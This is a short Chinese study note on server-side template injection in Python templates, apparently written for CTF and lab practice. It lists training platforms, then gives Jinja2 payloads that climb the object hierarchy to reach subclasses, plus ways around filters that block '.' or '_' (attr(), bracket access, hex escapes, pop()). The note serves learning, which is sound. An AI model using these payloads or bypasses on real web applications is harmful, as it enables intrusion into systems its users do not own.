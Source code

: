 1. NSSCTF-web 部分
2. BUUCTF-web 部分
3. Damn Vulnerable Web Application - **DVWA**
4. PortSwigger Labs - **「Server-side template injection」章节**

[**https://portswigger.net/web-security/all-topics**](https://portswigger.net/web-security/all-topics)

5. Hack The Box - **「Jeeves」靶机**



## SSTI 深入学习
### Python 链子介绍
:::info
Python-万物皆对象

:::

```python
{{ ''.__class__ }}                          # str 类
{{ ''.__class__.__mro__ }}                 # 查看类继承顺序
{{ ''.__class__.__mro__[1] }}              # object 类
{{ ''.__class__.__mro__[1].__subclasses__() }}  # 所有子类列表
```

### 绕过
基类

```python
__mro__[-1]
__base__
__bases__[0]
```

`.` 被ban

```python
''.__class__ = ''['__class__']
''.__class__ = ''|attr('__class__')
```

利用这两种方法

```python
1、用[]代替.
{{"".__class__}}={{""['__class']}}
2、用attr()过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

`_` 被ban

```python
1、通过list获取字符列表，然后用pop来获取_，举个例子
{% set a=(()|select|string|list).pop(24)%}{%print(a)%}
2、可以通过十六进制编码的方式进行绕过，举个例子
{{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
```
